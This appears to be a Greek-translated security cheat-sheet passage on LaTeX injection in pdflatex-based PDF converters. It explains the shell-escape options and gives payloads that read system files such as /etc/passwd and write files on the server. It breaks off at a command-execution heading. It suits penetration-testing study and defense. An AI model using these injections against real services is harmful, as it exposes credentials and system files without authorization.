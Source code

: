 ## LaTeX Injection

Συνήθως οι διακομιστές που θα βρείτε στο διαδίκτυο που **μετατρέπουν κώδικα LaTeX σε PDF** χρησιμοποιούν **`pdflatex`**.\
Αυτό το πρόγραμμα χρησιμοποιεί 3 κύρια χαρακτηριστικά για να (απαγορεύσει) ή να επιτρέψει την εκτέλεση εντολών:

* **`--no-shell-escape`**: **Απενεργοποιεί** τη δομή `\write18{command}`, ακόμη και αν είναι ενεργοποιημένη στο αρχείο texmf.cnf.
* **`--shell-restricted`**: Ίδιο με το `--shell-escape`, αλλά **περιορισμένο** σε ένα 'ασφαλές' σύνολο **προκαθορισμένων** \*\*εντολών (\*\*Στο Ubuntu 16.04 η λίστα είναι στο `/usr/share/texmf/web2c/texmf.cnf`).
* **`--shell-escape`**: **Ενεργοποιεί** τη δομή `\write18{command}`. Η εντολή μπορεί να είναι οποιαδήποτε εντολή shell. Αυτή η δομή κανονικά απαγορεύεται για λόγους ασφαλείας.

Ωστόσο, υπάρχουν άλλοι τρόποι για να εκτελέσετε εντολές, οπότε για να αποφύγετε το RCE είναι πολύ σημαντικό να χρησιμοποιήσετε `--shell-restricted`.

### Read file <a href="#read-file" id="read-file"></a>

Μπορεί να χρειαστεί να προσαρμόσετε την ένεση με περιτυλίγματα όπως \[ ή $.
```bash
\input{/etc/passwd}
\include{password} # load .tex file
\lstinputlisting{/usr/share/texmf/web2c/texmf.cnf}
\usepackage{verbatim}
\verbatiminput{/etc/passwd}
```
#### Διαβάστε αρχείο με μία γραμμή
```bash
\newread\file
\openin\file=/etc/issue
\read\file to\line
\text{\line}
\closein\file
```
#### Διαβάστε αρχείο πολλαπλών γραμμών
```bash
\newread\file
\openin\file=/etc/passwd
\loop\unless\ifeof\file
\read\file to\fileline
\text{\fileline}
\repeat
\closein\file
```
### Γράψτε αρχείο <a href="#write-file" id="write-file"></a>
```bash
\newwrite\outfile
\openout\outfile=cmd.tex
\write\outfile{Hello-world}
\closeout\outfile
```
### Command execution <a href="#command-execution" id="command-execution"></a>
